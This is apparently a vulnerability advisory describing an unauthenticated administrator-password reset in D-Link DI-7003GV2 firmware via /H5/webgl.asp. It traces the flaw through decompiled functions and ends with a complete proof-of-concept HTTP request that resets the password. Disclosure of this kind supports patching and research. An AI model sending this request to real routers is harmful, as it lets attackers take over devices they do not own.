






# Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an authentication bypass vulnerability in the `/H5/webgl.asp` interface. A remote attacker can exploit this vulnerability by sending a crafted HTTP request to reset the administrator password without any authentication.

# Vulnerability details

The handling function for the `H5/webgl.asp` interface is `sub_41F4F0`.

  

The `sub_41F4F0` function will compare the user-inputted account and password with those in nvram, and if they do not match, it will set a modification flag v2.

  

next, `save_variables` will be called to save the configuration.

  

When `exec_service=admin-restart`, it will enter the `jhl_httpd_reset_user` function to reset the password.

  

`jhl_httpd_reset_user` function updates nvram information based on saved global variables.

  


# POC

After sending the request packet, successfully reset the password.

```http
GET /H5/webgl.asp?tggl_port=0&remote_management=0&http_passwd=game&exec_service=admin-restart HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

  
